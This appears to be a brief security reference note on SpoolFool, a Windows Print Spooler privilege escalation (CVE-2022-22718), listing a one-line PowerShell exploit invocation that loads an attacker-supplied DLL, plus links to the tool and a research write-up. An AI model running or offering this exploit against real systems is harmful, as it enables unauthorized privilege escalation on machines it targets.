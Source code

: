 ### Exploit
```
Invoke-SpoolFool -dll <payload>.dll
```

### References
https://github.com/ly4k/SpoolFool  
https://research.ifcr.dk/spoolfool-windows-print-spooler-privilege-escalation-cve-2022-22718-bf7752b68d81  

